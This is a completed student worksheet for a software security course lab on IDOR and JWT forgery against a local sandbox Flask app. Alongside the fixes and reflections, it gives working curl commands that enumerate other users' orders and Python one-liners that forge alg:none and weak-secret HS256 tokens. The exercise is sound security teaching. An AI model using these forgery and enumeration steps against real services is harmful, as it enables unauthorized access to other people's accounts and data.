





# Worksheet 6 — Authentication, Sessions & Access Control (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 6**
> **Aligned:** OWASP 2025 **A01 Broken Access Control**, **A07 Authentication Failures** · **CWE-639** (IDOR), **CWE-347** (improper signature verification), **CWE-321** (weak hardcoded key)
> **Signature games:** 🗺️ **IDOR Treasure Hunt** — walk the `oid` numbers to loot orders that aren't yours · 🔏 **JWT Forgery** — mint a token you were never given.

> ⚠️ **Ethics note:** Forging tokens and accessing other users' objects is only legal in this sandbox (`vulnerable_app.py`) and your own Juice Shop. Doing it to a real service is unauthorized access. Keep all activity inside `http://localhost:8080`.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Nararat Kritphet | 6631503110 | 15/9/2026 |       |


## Part 2 — Lecture Questions

Answer in 2–4 sentences each.

1. Distinguish **authentication** from **authorization**. In `vulnerable_app.py`, `get_order` calls `current_user()` but ignores its result (L63) — which of the two is missing?

Authentication verifies who the user is, while authorization checks what that user is allowed to access. In vulnerable_app.py, get_order calls current_user() but ignores the result, so the missing protection is authorization.

2. What is **IDOR** (CWE-639)? Why is `/api/orders/<oid>` exploitable, and what single check in `solution_app.py` (L64) closes it?

IDOR occurs when an application allows users to access objects by changing an identifier without checking whether they own or are allowed to access that object. /api/orders/<oid> is exploitable because the vulnerable version does not check the order's owner. The fix in solution_app.py is the ownership check order["owner"] != user at L64.

3. Explain the **`alg:none`** JWT attack. Why does listing `"none"` in `algorithms=[...]` (L55) let an attacker submit an *unsigned* token?

The alg:none attack creates a JWT with sub=bob but without a cryptographic signature. Because the vulnerable application includes "none" in its allowed algorithms=[...] list, it accepts the unsigned token as valid instead of requiring a signed HS256 token.

4. Why is the hardcoded HMAC secret `"secret"` (CWE-321) dangerous even if `alg:none` were disabled? How does a strong random secret + pinned algorithm defend the token?

The hardcoded secret "secret" is dangerous because an attacker who discovers or guesses it can create a valid HS256-signed JWT for another user, even when alg:none is disabled. A strong random secret makes the signing key difficult to guess, while pinning the algorithm to HS256 prevents attackers from switching to an unintended algorithm.

5. What do the JWT claims **`exp`** and **`aud`** add, and why does the secure version reject tokens that lack them?

The exp claim sets an expiration time, limiting how long a JWT can be used, while aud identifies the intended audience of the token. The secure version requires these claims so that tokens cannot be used indefinitely or accepted by an unintended service.

## Part 3 — Hands-on Lab (150 min)

**Learning goals:** exploit IDOR, forge JWTs two ways (`alg:none` and weak secret), then prove `solution_app.py` enforces ownership and rejects forged tokens. Steps mirror `attack.md`.

**Prerequisites:** Docker + Docker Compose, `curl`, `python3` with `pyjwt`, optionally Burp Suite. Working dir: `labs/week06-authn-authz/`.

### Environment setup

```bash
cd labs/week06-authn-authz
docker compose up            # python:3.12-slim + flask + pyjwt, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: authz-lab, port 8080)
```
Optional secondary target / proxy:
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
# Burp Suite: put the proxy listener AND the browser proxy on 127.0.0.1:8081.
# NOT 8080 — the lab app already owns host 8080 (docker-compose.yml, "8080:5000").
# Burp's own default listener is 8080, so you must change it: leave it there and
# either the listener refuses to start ("Address already in use") or, if it does
# bind, the browser's proxy address is the target's address and every request
# goes straight to the app instead of through Burp — you intercept nothing.
```

**What to submit per task:** the exact **command/token**, a **screenshot** of the JSON response, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Get alice's token (from `attack.md`):
```bash
TOKEN=$(curl -s -X POST http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{"user":"alice","pw":"alicepw"}' | python3 -c 'import sys,json;print(json.load(sys.stdin)["token"])')
echo "$TOKEN"
```
Confirm `/api/orders/1` returns alice's Laptop order. *Deliverable: screenshot of the token + order 1.*



**Task 1 — IDOR Treasure Hunt (30 min) 🗺️.**
- *Goal:* read **bob's** order with **alice's** token.
- *Steps:*
  ```bash
  curl -s http://localhost:8080/api/orders/1 -H "Authorization: Bearer $TOKEN"   # yours
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $TOKEN"   # bob's — leaks!
  ```
- *Deliverable:* both responses + screenshot of bob's `Phone` order + why the missing ownership check (CWE-639) is the root cause.

```sim
jwt-forge
```


The IDOR works because the server uses the object ID from the URL but does not check whether the current user owns that object. Alice's valid token is therefore accepted when requesting Bob's order 2. The root cause is the missing server-side ownership check.

**Task 2 — JWT Forgery via alg:none (30 min) 🔏.**
- *Goal:* impersonate bob with an **unsigned** token (no secret needed).
- *Steps:*
  ```bash
  FORGED=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, key="", algorithm="none"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED"
  ```
- *Deliverable:* the forged token + screenshot of the accepted response + explanation of the `none` flaw (CWE-347).



The alg:none flaw allows an attacker to create a JWT with sub=bob without a signature. The vulnerable server accepts the unsigned token, so the attacker can impersonate Bob without knowing the secret. This is CWE-347, improper verification of cryptographic signature.

**Task 3 — JWT Forgery via weak secret (30 min) 🔏.**
- *Goal:* sign a *valid* HS256 token because the secret is the guessable string `secret` (CWE-321).
- *Steps:*
  ```bash
  FORGED2=$(python3 - <<'PY'
  import jwt
  print(jwt.encode({"sub": "bob"}, "secret", algorithm="HS256"))
  PY
  )
  curl -s http://localhost:8080/api/orders/2 -H "Authorization: Bearer $FORGED2"
  ```
- *Deliverable:* token + screenshot + 2–3 sentences on why secret strength + key management matter.



The server uses the weak and guessable secret "secret" to sign HS256 tokens. If an attacker discovers this secret, they can create a valid token for another user such as Bob. A strong random secret and proper key management are important to prevent attackers from forging valid JWTs.

**Task 4 — Privilege/identity escalation reasoning (25 min).**
- *Goal:* combine the flaws. Using Task 2/3 you became `bob` *without his password*; using Task 1 you read objects you don't own.
- *Steps:* document the full attack chain (forge token → access any `oid`). Optionally replay the requests through **Burp Suite Repeater** and screenshot the intercepted request/response.
- *Deliverable:* a short chain diagram/paragraph + Burp (or curl) evidence.


Forge JWT → impersonate Bob → access /api/orders/<oid> → change oid → access objects owned by other users.
The attacker can impersonate Bob without his password by forging a JWT, then exploit the missing ownership check by changing the object ID. This allows access to objects belonging to other users, combining JWT forgery with IDOR.

**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `solution_app.py` blocks Tasks 1–3.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
  ```bash
  docker compose run --rm --service-ports authz-lab bash -c "pip install --no-cache-dir flask pyjwt && python solution_app.py"
  ```
  Re-run: get a fresh alice token, then re-fire each attack. Expected: `/api/orders/2` with alice's token → **403 forbidden** (ownership check, L64); the `alg:none` token → **401 invalid token** (algorithm pinned to HS256, L50); the `"secret"` token → **401** (strong random secret + required `aud`/`exp`, L10/40).
- *Deliverable:* screenshots of the 403 and both 401s + name the fix line for each.

---

- L64 — ownership check
- L50 — pinned HS256
- L10/L40 — strong random secret + required aud/exp


---

## Part 4 — Reflection

1. **CWE/OWASP mapping:** map IDOR → **CWE-639 / A01**, the JWT forgeries → **CWE-347 & CWE-321 / A07**.

IDOR maps to CWE-639 (Authorization Bypass Through User-Controlled Key) and OWASP A01 Broken Access Control. The JWT forgery issues map to CWE-347 (Improper Verification of Cryptographic Signature) and CWE-321 (Use of Hard-coded Cryptographic Key), under OWASP A07 Authentication Failures.

2. **Real breach:** the **2022 Optus breach** exposed millions of customer records via an exposed/poorly-authorized API endpoint where identifiers could be enumerated — a textbook broken-access-control / IDOR-style failure. In 3–4 sentences connect it to Tasks 1 and 4 of this lab. *(Alternative: the Peloton API IDOR disclosure.)*

The 2022 Optus breach is similar to Task 1 because attackers could enumerate identifiers through an exposed API and access customer records without proper authorization. Like our IDOR attack, changing an identifier could expose data belonging to another user. Task 4 demonstrates how this becomes more serious when an attacker can first manipulate their identity and then access objects they should not be allowed to access. This shows why every API request must perform server-side authorization checks rather than trusting user-controlled identifiers.

3. **Best mitigation:** between deny-by-default ownership checks, pinning the JWT algorithm, and a strong managed secret, which control protects the most attack surface here, and why is server-side authorization non-negotiable?

Deny-by-default server-side ownership checks protect the broadest attack surface here because they directly control whether a user can access each protected object. Even if an attacker obtains or forges a valid JWT, the server must still verify that the authenticated user is authorized to access the requested resource. Therefore, server-side authorization is non-negotiable because authentication alone proves identity, not permission.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads/tokens + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?

  I first used Alice's JWT to access her own order, then changed the order ID to access Bob's order because the vulnerable application did not check whether Alice owned the requested object. I also forged a JWT with sub=bob using alg:none and later using the weak HMAC secret "secret", which worked because the server accepted unsigned tokens and used a guessable signing key. These flaws allowed me to access another user's data without their permission.

  2. **Why does your fix actually stop it** — and what could still break it?

  The fixed version checks resource ownership on the server, so Alice receives 403 Forbidden when trying to access Bob's order. It also pins JWT verification to HS256 and uses a strong secret with required aud and exp claims, causing the forged tokens to be rejected with 401. The system could still be vulnerable if another endpoint forgets its authorization check, the signing secret is exposed, or JWT validation is implemented incorrectly elsewhere.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.

1. Ask an AI assistant to exploit **or** fix this week's vulnerability. Paste its full answer.
2. **Find what's wrong or risky** in it — insecure code, a subtly incomplete fix, a hallucinated API/function/CVE, a missed edge case, or wrong reasoning. Quote the exact line(s).
3. Produce the **correct, verified** version yourself and explain in 2–3 sentences why the AI's output was insufficient.

> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

The vulnerable endpoint lets a logged-in user request an order by changing the order ID, but it does not check whether that user owns the order. It also accepts JWTs that can be forged without the real user's password because of the alg:none option and the weak "secret" key.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*

Final Prompt

You are fixing an IDOR vulnerability in a Flask API. In the /api/orders/<oid> endpoint, the authenticated user is obtained from the JWT, and each order has an owner field. Modify the server-side authorization logic so the endpoint returns the requested order only when order["owner"] == current_user(). If the order exists but belongs to another user, return HTTP 403 Forbidden. Do not rely on the client, URL, or object ID for authorization, and do not remove authentication. After proposing the fix, explain exactly why it prevents Alice from accessing Bob's order /api/orders/2, and provide a test command to verify the fix.

Verified result

Before the fix, Alice's valid token could access /api/orders/2 and return Bob's Phone order. After running the fixed solution_app.py, I repeated the same request using Alice's fresh token and received {"error":"forbidden"} with HTTP 403, confirming that the server-side ownership check blocks the IDOR attack.
